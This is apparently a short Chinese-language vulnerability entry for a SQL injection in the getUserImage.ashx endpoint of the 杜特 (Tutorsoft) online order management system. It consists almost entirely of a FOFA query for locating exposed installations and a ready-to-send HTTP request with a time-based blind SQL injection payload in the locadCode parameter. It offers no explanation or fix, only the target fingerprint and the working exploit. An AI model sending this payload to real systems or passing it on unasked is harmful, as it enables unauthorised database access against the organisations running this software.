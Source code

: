 # 杜特网上订单管理系统getUserImage.ashx存在SQL注入漏洞

杜特网上订单管理系统getUserImage.ashx存在SQL注入漏洞

## fofa

```javascript
app="TUTORSOFT-ERP"
```

## poc

```javascript
GET /ajax/getUserImage.ashx?locadCode=admin%27/**/and(select+1)>0waitfor/**/delay%270:0:5 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241219151440983](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412191514043.png)
